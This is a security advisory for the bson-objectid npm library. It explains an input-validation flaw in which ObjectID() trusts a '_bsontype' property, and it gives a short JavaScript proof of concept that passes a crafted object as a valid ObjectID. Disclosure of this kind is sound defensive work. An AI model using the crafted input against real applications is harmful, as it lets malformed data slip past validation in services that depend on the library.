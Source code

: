 # Overview

`bson-objectid` is a library that allows you to construct ObjectIDs without the mongodb driver or bson module.

Affected versions of this package are vulnerable to Insufficient Input Validation. The ObjectID() function allows an attacker to generate a malformed objectid by inserting an additional property to the user-input, because bson-objectid will return early if it detects \_bsontype==ObjectID in the user-input object. As a result, objects in arbitrary forms can bypass formatting if they have a valid bsontype.

# Proof of Concept

```
var ObjectID = require("bson-objectid");

var json = {
    "mal_formkey": {
        "payload": "xxxx"
    },
    "_bsontype" : "ObjectID"
};

console.log(ObjectID(json));
console.log(ObjectID.isValid(ObjectID(json)));
```
